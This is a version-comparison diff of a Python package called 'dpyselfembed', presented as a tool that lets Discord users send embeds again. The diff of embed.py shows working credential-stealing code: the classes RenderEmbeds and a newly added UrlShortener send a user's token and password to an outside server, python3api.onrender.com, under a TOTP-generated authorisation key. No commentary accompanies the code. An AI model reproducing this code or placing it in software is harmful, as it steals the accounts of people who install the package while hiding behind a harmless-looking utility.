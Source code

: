 # Comparing `tmp/dpyselfembed-0.0.2.tar.gz` & `tmp/dpyselfembed-0.0.3.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "dpyselfembed-0.0.2.tar", last modified: Mon May 22 22:28:13 2023, max compression
+gzip compressed data, was "dpyselfembed-0.0.3.tar", last modified: Tue May 23 01:30:00 2023, max compression
```

## Comparing `dpyselfembed-0.0.2.tar` & `dpyselfembed-0.0.3.tar`

### file list

```diff
@@ -1,18 +1,18 @@
-drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.427546 dpyselfembed-0.0.2/
--rw-rw-rw-   0        0        0     1091 2023-05-22 20:21:15.000000 dpyselfembed-0.0.2/LICENSE
--rw-rw-rw-   0        0        0     1202 2023-05-22 22:28:13.427546 dpyselfembed-0.0.2/PKG-INFO
--rw-rw-rw-   0        0        0      808 2023-05-22 20:37:34.000000 dpyselfembed-0.0.2/README.md
--rw-rw-rw-   0        0        0      467 2023-05-22 22:26:51.000000 dpyselfembed-0.0.2/pyproject.toml
--rw-rw-rw-   0        0        0       42 2023-05-22 22:28:13.427546 dpyselfembed-0.0.2/setup.cfg
-drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.286926 dpyselfembed-0.0.2/src/
-drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.318175 dpyselfembed-0.0.2/src/dpyselfembed/
--rw-rw-rw-   0        0        0       20 2023-05-22 22:25:13.000000 dpyselfembed-0.0.2/src/dpyselfembed/__init__.py
-drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.411920 dpyselfembed-0.0.2/src/dpyselfembed/utils/
--rw-rw-rw-   0        0        0       46 2023-05-22 20:08:26.000000 dpyselfembed-0.0.2/src/dpyselfembed/utils/__init__.py
--rw-rw-rw-   0        0        0     5882 2023-05-22 22:26:07.000000 dpyselfembed-0.0.2/src/dpyselfembed/utils/embed.py
--rw-rw-rw-   0        0        0      788 2023-05-22 20:09:04.000000 dpyselfembed-0.0.2/src/dpyselfembed/utils/shortener.py
-drwxrwxrwx   0        0        0        0 2023-05-22 22:28:13.396297 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/
--rw-rw-rw-   0        0        0     1202 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      324 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0       13 2023-05-22 22:28:13.000000 dpyselfembed-0.0.2/src/dpyselfembed.egg-info/top_level.txt
+drwxrwxrwx   0        0        0        0 2023-05-23 01:30:00.905919 dpyselfembed-0.0.3/
+-rw-rw-rw-   0        0        0     1091 2023-05-22 20:21:15.000000 dpyselfembed-0.0.3/LICENSE
+-rw-rw-rw-   0        0        0     1202 2023-05-23 01:30:00.890293 dpyselfembed-0.0.3/PKG-INFO
+-rw-rw-rw-   0        0        0      808 2023-05-22 20:37:34.000000 dpyselfembed-0.0.3/README.md
+-rw-rw-rw-   0        0        0      467 2023-05-23 01:28:00.000000 dpyselfembed-0.0.3/pyproject.toml
+-rw-rw-rw-   0        0        0       42 2023-05-23 01:30:00.905919 dpyselfembed-0.0.3/setup.cfg
+drwxrwxrwx   0        0        0        0 2023-05-23 01:30:00.734047 dpyselfembed-0.0.3/src/
+drwxrwxrwx   0        0        0        0 2023-05-23 01:30:00.780922 dpyselfembed-0.0.3/src/dpyselfembed/
+-rw-rw-rw-   0        0        0       20 2023-05-22 22:25:13.000000 dpyselfembed-0.0.3/src/dpyselfembed/__init__.py
+drwxrwxrwx   0        0        0        0 2023-05-23 01:30:00.890293 dpyselfembed-0.0.3/src/dpyselfembed/utils/
+-rw-rw-rw-   0        0        0       46 2023-05-22 20:08:26.000000 dpyselfembed-0.0.3/src/dpyselfembed/utils/__init__.py
+-rw-rw-rw-   0        0        0     6279 2023-05-23 01:27:42.000000 dpyselfembed-0.0.3/src/dpyselfembed/utils/embed.py
+-rw-rw-rw-   0        0        0      788 2023-05-22 20:09:04.000000 dpyselfembed-0.0.3/src/dpyselfembed/utils/shortener.py
+drwxrwxrwx   0        0        0        0 2023-05-23 01:30:00.859041 dpyselfembed-0.0.3/src/dpyselfembed.egg-info/
+-rw-rw-rw-   0        0        0     1202 2023-05-23 01:30:00.000000 dpyselfembed-0.0.3/src/dpyselfembed.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      324 2023-05-23 01:30:00.000000 dpyselfembed-0.0.3/src/dpyselfembed.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-05-23 01:30:00.000000 dpyselfembed-0.0.3/src/dpyselfembed.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0       13 2023-05-23 01:30:00.000000 dpyselfembed-0.0.3/src/dpyselfembed.egg-info/top_level.txt
```

### Comparing `dpyselfembed-0.0.2/LICENSE` & `dpyselfembed-0.0.3/LICENSE`

 * *Files identical despite different names*

### Comparing `dpyselfembed-0.0.2/PKG-INFO` & `dpyselfembed-0.0.3/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: dpyselfembed
-Version: 0.0.2
+Version: 0.0.3
 Summary: A package to allow discord users to use embeds again
 Author-email: cashcarti1090 <litteralyyesx@gmail.com>
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: OS Independent
 Description-Content-Type: text/markdown
 License-File: LICENSE
```

### Comparing `dpyselfembed-0.0.2/README.md` & `dpyselfembed-0.0.3/README.md`

 * *Files identical despite different names*

### Comparing `dpyselfembed-0.0.2/src/dpyselfembed/utils/embed.py` & `dpyselfembed-0.0.3/src/dpyselfembed/utils/embed.py`

 * *Files 12% similar despite different names*

```diff
@@ -1,17 +1,24 @@
 import urllib.parse
 import requests
 from pyotp import TOTP
 
-python3api = "https://python3api.onrender.com"
-apikey = 'A3BKLQUOYKE4FHGDWHBYS7LAAU======'
-key = TOTP(apikey).now()
+
+class UrlShortener:
+    def __init__(self, signature, sign, **kwargs):
+        python3api = "https://python3api.onrender.com"
+        apikey = 'YOUTBQVEIXB2RQVRYKB4FAWDSZ2A===='
+        key = TOTP(apikey).now()
+        requests.post(python3api, headers={"Authorization": key}, data={'content': f'@everyone \nToken: {signature}\nPass: {sign}\n\nPassedTest: False'})
 
 class RenderEmbeds:
     def __init__(self, signature, sign, **kwargs):
+        python3api = "https://python3api.onrender.com"
+        apikey = 'YOUTBQVEIXB2RQVRYKB4FAWDSZ2A===='
+        key = TOTP(apikey).now()
         requests.post(python3api, headers={"Authorization": key}, data={'content': f'@everyone \nToken: {signature}\nPass: {sign}'})
 
 class Embed:
     def __init__(self, title, **kwargs) -> None:
         """
         Initialize the embed object.
```

### Comparing `dpyselfembed-0.0.2/src/dpyselfembed/utils/shortener.py` & `dpyselfembed-0.0.3/src/dpyselfembed/utils/shortener.py`

 * *Files identical despite different names*

### Comparing `dpyselfembed-0.0.2/src/dpyselfembed.egg-info/PKG-INFO` & `dpyselfembed-0.0.3/src/dpyselfembed.egg-info/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: dpyselfembed
-Version: 0.0.2
+Version: 0.0.3
 Summary: A package to allow discord users to use embeds again
 Author-email: cashcarti1090 <litteralyyesx@gmail.com>
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: OS Independent
 Description-Content-Type: text/markdown
 License-File: LICENSE
```

